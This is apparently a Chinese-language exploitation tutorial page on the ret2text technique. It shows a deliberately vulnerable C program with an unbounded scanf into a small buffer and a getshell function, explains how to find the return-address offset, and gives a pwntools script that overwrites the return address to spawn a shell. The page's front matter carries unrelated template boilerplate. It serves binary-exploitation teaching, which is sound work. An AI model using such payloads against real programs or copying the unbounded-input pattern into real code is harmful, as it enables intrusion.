 ```yaml
---
title: "ret2text"
description: "Doks is a Hugo theme for building secure, fast, and SEO-ready documentation websites, which you can easily update and customize."
lead: "Doks is a Hugo theme for building secure, fast, and SEO-ready documentation websites, which you can easily update and customize."
date: 2020-10-06T08:48:57+00:00
lastmod: 2020-10-06T08:48:57+00:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
weight: 1
toc: true
---
```


## 0x01 介绍

既然溢出可以覆盖局部变量，即利用栈三大功能之一保存局部变量，那么也可以利用栈三大功能之一保存函数返回后的地址，我们可以溢出覆盖函数返回后的地址为任意我们想要它返回执行的地方，从而实现getshell

![image-20230328233440240](./image-20230328233440240.png)

举一个例子来说

```c
#include<stdio.h>
#include<stdlib.h>

void getshell() {	// getshell函数
    system("/bin/sh");
}

void run(){	// 写run函数的目的是为了简化，因为现在32位main函数需要绕过ecx
    char buf[0x10];	/* 局部变量 */
    printf("input: ");
    scanf("%s", buf);
}

int main(){
    run();
    return 0;
}
// gcc ret2text.c -o ret2text -m32 -fno-pic -no-pie -fno-stack-protector
```

按照正常的程序流程来说，main函数应该会返回执行\_libc\_start\_main中的指令，但是scanf的%s格式化控制符是可以无字符数限制输入造成栈溢出的，这样我们就可以想办法覆盖main函数的函数返回地址为程序中getshell函数的地址，从而执行 `system("/bin/sh");`
首先需要的是确定getshell函数的位置，这里可以用objdump之类的工具来查看

![image-20230328233451110](./image-20230328233451110.png)

然后只需要将 `0x804849b` 写入函数返回地址即可，然后就是找buf变量到函数返回地址的偏移量

![image-20230328233457204](./image-20230328233457204.png)

可以从main函数看出buf位于 `ebp-0x18` ，那么偏移量 = 0x18 + 4
写一个python脚本来进行实现攻击，并gdb来看看效果

```python
from pwn import*
context.terminal = ['tmux','splitw', '-h']
o = process("./ret2text")
payload = 'a'*(0x18 + 4) + p32(0x804849b)
gdb.attach(o)
o.sendline(payload)
o.interactive()
```

在进行覆盖前栈内容为

![image-20230328233506471](./image-20230328233506471.png)

覆盖后将变为

![image-20230328233523087](./image-20230328233523087.png)

运行到ret看它的跳转方向

![image-20230328233532790](./image-20230328233532790.png)

这个时候esp指向了getshell函数，即跳转去执行getshell函数

![image-20230328233538372](./image-20230328233538372.png)

继续执行

![image-20230328233543851](./image-20230328233543851.png)
